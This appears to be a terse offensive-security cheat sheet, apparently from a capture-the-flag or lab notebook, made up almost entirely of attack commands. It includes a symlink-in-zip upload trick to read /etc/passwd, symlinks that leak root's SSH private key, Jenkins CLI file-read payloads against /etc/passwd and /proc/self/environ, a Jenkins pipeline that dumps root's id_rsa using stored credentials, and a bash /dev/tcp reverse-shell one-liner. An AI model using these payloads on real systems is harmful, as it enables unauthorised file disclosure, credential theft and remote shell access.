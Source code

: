 ### symbolic
```
mkdir -p exploit/content/images/
ln -s /etc/passwd exploit/content/images/test-file.png

# -r : 재귀적 압축, -y : 링크 자체로 저장
zip -r -y exploit.zip exploit/

curl http://pinocure.com/content/images/test-file.png
```
```
ln -s /root/.ssh/id_rsa /usr/local/nagiosxi/tmp/phpmailer.log
```
```
touch @id_rsa
ln -s /root/.ssh/id_rsa id_rsa
```

### jenkins
```
sudo java -jar jenkins-cli.jar -noCertificateCheck -s 'http://10.10.11.10:8080' help "@/etc/passwd"
java -jar jenkins-cli.jar -noCertificateCheck -s 'http://10.10.11.10:8080' help "@/proc/self/environ"
```
```
# pipeline
pipeline {
    agent any
    stages {
        stage('SSH') {
            steps {
                script {
                    sshagent(credentials: ['1']) {
                        sh 'ssh -o StrictHostKeyChecking=no root@10.10.11.10 "cat /root/.ssh/id_rsa"'
                    }
                }
            }
    	}
    }
}
```

### podman
```
podman pull docker.io/jenkins/jenkins:lts-jdk17
docker run -p 8080:8080 --restart=on-failure jenkins/jenkins:lts-jdk17
```

### RCE
```
/bin/bash -c 'bash -i >& /dev/tcp/{ip}/{port} 0>&1'
```
